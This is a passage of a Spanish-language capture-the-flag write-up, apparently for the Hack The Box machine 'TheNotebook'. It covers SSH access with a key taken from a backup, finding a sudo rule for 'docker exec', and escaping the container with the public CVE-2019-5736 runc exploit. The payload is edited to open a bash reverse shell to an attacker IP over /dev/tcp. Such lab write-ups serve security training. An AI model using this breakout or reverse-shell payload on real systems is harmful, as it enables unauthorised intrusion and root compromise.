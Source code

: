 Dentro del backup `home.tar.gz` podemos encontrar la llave privada `id_rsa` para conectarse mediante SSH así como el nombre de usuario `noah`.

Con esto podemos conectarnos al sistema `$ ssh -i id_rsa noah@10.10.10.230` y recuperar la flag de usuario.

## Escalar privilegios

Mirando que le esta permitido hacer como super-usuario al usuario `noah` encontramos:

```bash
noah@thenotebook:~$ sudo -l
Matching Defaults entries for noah on thenotebook:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User noah may run the following commands on thenotebook:
    (ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*
noah@thenotebook:~$
```

Se nos permite ejecutar `sudo docker exec ...` sin restricciones así que seguramente el exploit consista en eso. Cogemos también la versión de `docker` para poder hacer una búsqueda:

```bash
noah@thenotebook:~$ docker --version
Docker version 18.06.0-ce, build 0ffa825
```

```bash
┌──(galahad㉿orfelia)-[~]
└─$ searchsploit docker 18.06.0
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (1)                        | linux/local/46359.md
runc < 1.0-rc6 (Docker < 18.09.2) - Container Breakout (2)                        | linux/local/46369.md
---------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Encontramos dos exploits que permiten saltar fuera del container aplicables a nuestra situación. Por desgracia ambos son documentos que explican como hacerlo más que el código para hacerlo. Así que una búsqueda rápida de `PoC Docker < 18.09.2 Container Breakout` nos devuelve este enlace de GitHub https://github.com/Frichetten/CVE-2019-5736-PoC.

Clonamos el repositorio y modificamos el fichero `main.go` para que ejecute el payload que deseemos.

```go
// This is the line of shell commands that will execute on the host
var payload = "#!/bin/bash \n exec bash -i &>/dev/tcp/10.10.16.46/4444 <&1"
```
